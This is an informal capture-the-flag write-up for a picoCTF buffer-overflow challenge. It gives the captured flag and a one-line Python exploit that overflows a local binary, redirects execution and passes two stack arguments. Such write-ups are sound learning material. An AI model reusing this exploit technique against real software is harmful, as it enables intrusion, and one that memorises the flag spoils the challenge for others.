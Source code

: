 Write-Up-
Well, its a simple buffer - overflow With ROP, but this time we need to also give arguements to the function, cause it has 2 if checks, so, I passed the 2 args to the stack
-------------------------------------------------------------------------------------
flag- picoCTF{arg5_and_r3turn598632d70}


-------------------------------------------------------------------------------------
python -c "print 'a'*188 + '\xe6\x85\x04\x08'+ 'aaaa' + '\xEF\xBE\xAD\xDE'+ '\x0D\xD0\xDE\xC0'" | ./vuln